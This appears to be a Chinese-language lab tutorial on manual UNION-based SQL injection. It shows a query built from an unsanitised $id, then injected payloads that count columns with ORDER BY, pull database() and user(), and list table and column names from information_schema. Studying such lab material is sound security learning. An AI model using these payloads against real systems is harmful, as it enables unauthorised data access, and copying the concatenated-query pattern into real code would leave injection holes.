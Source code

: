 ```sql
$query=SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

### 查看列数量
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1#'
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2#'
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 3#'
```

### 利用union select查看其他信息

- database()将会返回当前网站所使用的数据库名字.
- user()将会返回执行当前查询的用户名.
- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。


```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),user()#'
```

### 查看表名

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema=database()#`


SELECT first_name, last_name FROM users WHERE user_id = '1' union select group_concat(table_name),table_schema from information_schema.tables where table_schema=database()#`
```


### 查列名

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,group_concat(column_name) from information_schema.columns where table_name='table1'#
```
